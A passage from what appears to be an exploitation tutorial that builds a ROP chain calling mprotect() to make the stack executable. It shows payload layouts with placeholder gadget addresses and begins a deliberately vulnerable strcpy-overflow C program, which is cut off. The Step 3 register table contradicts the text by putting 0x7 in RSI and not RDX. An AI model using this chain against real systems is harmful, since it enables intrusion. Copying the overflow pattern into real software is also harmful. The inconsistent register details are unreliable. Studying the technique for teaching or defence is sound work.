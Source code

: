 ```python
	%RDX	0x00000039c7777777
	%RSI	0xf0000
	%RDI	0x7fdb97ab0000
```

#### **Step 3**
*The %RDX register must contain the permissions bit, in our case 0x7 -> rwx permissions.* 

This step is similar to the previous step. The value will be popped from the stack:

```python
Only one gadget is used, together with the permissions setting.
	- 0x00000039caaaaaaa: pop rdx ; ret

The permissions value is 0x7 (read, write and execute permissions)

The payload now looks like this:
	[NOP x size][0x00000039c1111111][0x00000039c2222222][0x00000039c3333333][0x00000039c4444444]
	[0x00000039c5555555][0x00000039c6666666][0x00000039c7777777][0x00000039c8888888]
	[0x00000039c9999999][0x00000000000f0000][0x00000039caaaaaaa][0x0000000000000007]

The registers now contain:
	%RAX 	0x7fdb97ab0000
	%RCX 	0x00000039c2222222
	%RDX	0x00000039c7777777
	%RSI	0x7
	%RDI	0x7fdb97ab0000

```

**All registers now have the correct value to make this part of the stack executable.**

#### **Step 4**
*Call mprotect()*


The address of the mprotect() instruction must be included in the payload.
For this example libc is loaded on address 0x0000003888c00000, so the payload that will make the stack executable looks like this:
```python
	[NOP x size][0x00000039c1111111][0x00000039c2222222][0x00000039c3333333][0x00000039c4444444]
	[0x00000039c5555555][0x00000039c6666666][0x00000039c7777777][0x00000039c8888888]
	[0x00000039c9999999][0x00000000000f0000][0x00000039caaaaaaa][0x0000000000000007]
	[0x0000003888ce54b0]
```

That's all. To finish the exploit you still have to make sure that your instruction pointer points to your shellcode, but that is easy after the given explanation.

## Do it yourself
Building a ROP chain and testing how things work can easily be done on a 64-bit Linux machine.
To try it yourself you could write a vulnerable C program:
```c
#include <string.h> 
#include <stdio.h> 

void print_name(char *Buffer)
{
     char name[64];
     strcpy(name,Buffer);
     printf("Hi, %s!\n", Buffer);
}

int main (int argc, char **argv)
{
     print_name(argv[1]);
```